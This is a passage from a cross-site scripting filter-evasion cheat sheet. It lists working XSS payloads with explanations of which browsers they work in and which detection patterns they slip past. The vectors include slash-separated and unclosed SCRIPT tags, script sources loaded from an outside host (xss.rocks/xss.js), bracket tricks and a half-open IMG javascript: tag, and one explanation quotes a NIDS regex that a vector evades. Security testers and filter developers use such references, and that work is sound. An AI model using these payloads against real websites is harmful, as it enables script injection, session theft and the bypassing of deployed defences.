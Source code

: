 Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

## Extraneous Open Brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

```html
<
<script>
  alert('XSS'); //\<
</script>
```

## No Closing Script Tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't actually need the `\></SCRIPT>` portion of this Cross Site Scripting vector. Firefox assumes it's safe to close the HTML tag and add closing tags for you. How thoughtful\! Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they're not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

## Protocol Resolution in Script Tags

This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh's protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The ".j" is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

```html
<SCRIPT SRC=//xss.rocks/.j>
```

## Half Open HTML/JavaScript XSS Vector

Unlike Firefox the IE rendering engine doesn't add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close "\>" tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn't require the end "\>". As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:

```html
<IMG SRC="`<javascript:alert>`('XSS')"`
```
